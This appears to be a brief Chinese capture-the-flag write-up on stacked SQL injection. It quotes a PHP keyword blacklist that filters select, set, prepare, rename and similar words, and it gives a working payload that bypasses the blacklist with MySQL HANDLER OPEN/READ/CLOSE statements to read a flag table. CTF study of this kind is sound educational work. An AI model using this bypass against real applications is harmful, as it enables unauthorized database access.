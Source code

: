 # 知识点：

# 1.堆叠注入

## 2. HANDLER ... OPEN，HANDLER ... READ，HANDLER ... CLOSE在堆叠注入中的运用



# 1.此题和强网杯一样，只是过滤规则更严格

```python
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```



更改表名的|alter|rename|杯过滤

使用char绕过的set和prepare被过滤



# 2. 新方法

https://dev.mysql.com/doc/refman/8.0/en/handler.html

payload:

```python
?inject=1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere CLOSE;#

HANDLER ... OPEN语句会打开一个表，使其能够用后续的HANDLER ... READ语句访问。
这个表不能和其他会话共享直到HANDLER ... CLOSE或会话关闭。
```




